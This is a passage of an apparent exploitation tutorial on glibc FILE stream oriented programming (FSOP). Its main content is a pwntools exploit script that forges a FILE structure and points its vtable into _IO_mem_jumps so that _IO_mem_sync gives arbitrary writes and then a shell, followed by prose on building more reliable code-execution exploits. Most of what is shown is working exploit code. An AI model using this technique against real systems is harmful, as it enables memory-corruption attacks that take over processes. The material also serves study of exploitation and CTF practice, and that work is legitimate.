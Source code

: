 ```python
_vtable_offset = p8(0x0)
_shortbuf = p8(0x0)
_shortbuf_byte_hole = p32(0x0)
_lock = libc.address + 0x1f21f8
_offset = 0x0
_codecvt = 0x0
_wide_data = _lock
_freeres_list = 0x0
_freeres_buf = 0x0
__pad5 = 0x0
_mode = p32(0x0)
_unused2 = b'\x00'*0x14

# here is the trick, by shifting the vtable in the range of __libc_IO_vtables we are not aborting the program, it is totally allowed.
vtable = libc.sym._IO_mem_jumps + 0x38  # now _IO_UNDERFLOW points to _IO_mem_sync, our magical two arbitrary write function ;)

fs = _flags + _flags_byte_hole + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base) + p64(_IO_write_base) + p64(_IO_write_ptr) \
   + p64(_IO_write_end) + p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end) \
   + p64(_markers) + p64(_chain) + _fileno + _flags2 + p64(_old_offset) + _cur_column + _vtable_offset + _shortbuf + _shortbuf_byte_hole + p64(_lock) + p64(_offset) \
   + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf) + p64(__pad5) + _mode + _unused2 \
   + p64(vtable)

fix_fs_chunk_size = 0x1e1 # we want to fix chunk size field to avoid aborting.
exploit = fit({
    0x18: p64(fix_fs_chunk_size) + fs + p64(0)*2 + p64(where) + p64(where2)
})

io.send(exploit)

io.interactive()
```
You can find all the binaries & glibc dependencies in my github repo [link].

# Complains
* Other combos might not work!
* What we do in case our one gadget is not working ;(
* How we will perform FSOP ;(
* We want to build a new House ;)

# Revive FSOP
Probably you can craft a working exploit to get a shell with just those two arbitrary write primitives with different ways. But maybe your targets might not get you a shell because you cannot satisfy one gadget requirements for some glibcs or you want to craft a stable exploit. If you know your FILE stream location in memory probably you can do a lot of fucking magic with `_IO_mem_sync`, but you might not be able to get a heap leak, so I will propose a different strategy to get a working shell. If you have a convenient target from which you can hijack the execution flow but you can not get a proper shell because your gadgets are not working continue with this. If you don't have a reliable target I will propose later different techniques and targets which can get you code execution.

